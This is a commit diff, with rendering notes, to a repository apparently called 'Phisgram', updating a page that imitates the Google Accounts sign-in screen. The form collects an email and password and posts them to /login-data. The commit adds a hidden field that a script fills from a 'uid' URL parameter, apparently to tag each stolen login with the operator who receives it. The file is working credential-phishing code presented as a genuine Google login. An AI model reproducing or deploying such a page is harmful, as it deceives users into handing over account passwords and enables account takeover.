

Before and after one commit to Titusvirous/Phisgram, a website: page pages/google.html in a window 1280 px wide. Shown: the part 114-664 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update google.html

```diff
--- a/pages/google.html
+++ b/pages/google.html
@@ -1 +1,36 @@
-<!DOCTYPE html><html><head><title>Sign in - Google Accounts</title><style>body{font-family:Roboto,Arial,sans-serif;background:#fff;margin:0;display:flex;justify-content:center;align-items:center;height:100vh}.card{width:450px;border:1px solid #dadce0;border-radius:8px;padding:48px 40px}.logo{text-align:center;margin-bottom:20px}.title{font-size:24px;color:#202124;-align:center}input{width:100%;height:56px;margin-top:24px;padding:13px 15px;border:1px solid #ccc;border-radius:4px;font-size:16px;box-sizing:border-box}button{width:100%;height:36px;margin-top:24px;background:#1a73e8;color:#fff;border:none;border-radius:4px;font-size:14px;font-weight:500;cursor:pointer}</style></head><body><div class="card"><div class="logo"><img src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png" alt="Google" height="24"></div><h1 class="title">Sign in</h1><form action="/login-data" method="post"><input type="text" name="username" placeholder="Email or phone" required><input type="password" name="password" placeholder="Password" required><input type="hidden" name="service" value="Google"><button type="submit">Next</button></form></div></body></html>
+<!DOCTYPE html>
+<html>
+<head>
+    <title>Sign in - Google Accounts</title>
+    <style>
+        body { font-family: "Google Sans", Roboto, Arial, sans-serif; background: #fff; margin: 0; display: flex; justify-content: center; align-items: center; height: 100vh; }
+        .card { width: 450px; border: 1px solid #dadce0; border-radius: 8px; padding: 48px 40px; box-sizing: border-box; }
+        .logo { text-align: center; margin-bottom: 20px; }
+        .title { font-size: 24px; color: #202124; text-align: center; }
+        .subtitle { font-size: 16px; color: #202124; text-align: center; margin-top: 10px; }
+        input { width: 100%; height: 56px; margin-top: 24px; padding: 13px 15px; border: 1px solid #ccc; border-radius: 4px; font-size: 16px; box-sizing: border-box; }
+        button { width: 100%; height: 36px; margin-top: 30px; background: #1a73e8; color: #fff; border: none; border-radius: 4px; font-size: 14px; font-weight: 500; cursor: pointer; }
+    </style>
+</head>
+<body>
+    <div class="card">
+        <div class="logo"><img src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png" alt="Google" height="24"></div>
+        <h1 class="title">Sign in</h1>
+        <p class="subtitle">to continue</p>
+        <form action="/login-data" method="post">
+            <input type="text" name="username" placeholder="Email or phone" required>
+            <input type="password" name="password" placeholder="Password" required>
+            <!-- HIDDEN FIELDS -->
+            <input type="hidden" name="service" value="Google">
+            <input type="hidden" id="recipientId" name="recipientId" value="">
+            <button type="submit">Next</button>
+        </form>
+    </div>
+    <script>
+        document.addEventListener("DOMContentLoaded", () => {
+            const userId = new URLSearchParams(window.location.search).get('uid');
+            if (userId) document.getElementById('recipientId').value = userId;
+        });
+    </script>
+</body>
+</html>
```
